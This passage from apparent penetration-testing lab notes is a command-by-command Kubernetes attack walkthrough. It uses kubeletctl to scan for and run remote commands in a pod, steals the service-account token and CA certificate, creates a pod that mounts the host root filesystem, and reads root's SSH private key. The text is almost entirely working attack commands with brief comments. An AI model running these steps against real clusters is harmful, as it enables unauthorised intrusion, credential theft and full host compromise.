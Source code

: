         kubeletctl -i --server 10.129.10.11 scan rce
        # for managing pods

        kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
        # executing commands in container
        ```
    
    * k8s privesc:

        ```sh
        kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
        # extract k8s service account token

        kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
        # extract service account certificate

        export token=`cat k8.token`

        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
        # check access rights in k8s cluster

        # if we can create pods, we can create a YAML file to create a new container
        # and mount entire root filesystem from host into this container

        # after creating YAML file, create new pod
        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
        # list pods and find newly created pod

        # extract root SSH key
        kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
        ```
